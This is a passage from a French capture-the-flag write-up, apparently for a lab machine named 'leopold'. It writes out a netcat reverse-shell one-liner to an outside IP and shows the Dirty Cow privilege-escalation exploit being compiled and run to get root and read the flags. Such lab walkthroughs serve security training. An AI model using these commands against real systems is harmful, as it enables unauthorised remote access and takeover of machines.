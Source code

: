 ~~~bash
id
uid=1000(leopold) gid=1000(leopold) groups=1000(leopold),
4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),107(lpadmin),124(sambashare)
~~~

Le shell est instable, nous allons donc en créer un plus stable : 

~~~bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.122.26 8888 >/tmp/f
~~~

> Source : [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Nous voilà avec le flag user : **924adc9f3f14672ab03903** 

En regardant un peu la version du noyau installé nous découvrons ceci : 

~~~bash
Linux leopold 3.5.0-17-generic #28-Ubuntu SMP Tue Oct 9 19:32:08 UTC 2012 i686 i686 i686 GNU/Linux
~~~

Il semble donc que notre machine soit vulnérable à la faille `Dirty Cow`, utilisons cet [exploit](https://www.exploit-db.com/raw/40616) : 

Pour l'utiliser nous devons le compiler puis le lancer : 

~~~bash
$ gcc dirtycow.c -pthread
gcc dirtycow.c -pthread
dirtycow.c: In function ‘procselfmemThread’:
dirtycow.c:53:9: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [enabled by default]
In file included from dirtycow.c:7:0:/usr/include/unistd.h:335:16: note: expected ‘__off_t’ but argument is of type ‘void *’                       
dirtycow.c: In function ‘main’:
dirtycow.c:96:5: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘__off_t’ [-Wformat]
$ ls
ls
a.out      Desktop     Documents  examples.desktop  Music     Public     Videos           browse.sh  dirtycow.c  Downloads  flag.txt          Pictures  Templates                   
$ ./a.out
./a.out
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 41292
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd is overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@leopold:/home/leopold# id
id
uid=0(root) gid=1000(leopold) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),107(lpadmin),124(sambashare),1000(leopold)
root@leopold:/home/leopold# ls /root
ls /root
flag.txt
root@leopold:/home/leopold# cat /root/flag.txt
cat /root/flag.txt
53b0af358e2bf5cef9883f25fc
root@leopold:/home/leopold#
~~~

Nous sommes maintenant `root` ! 
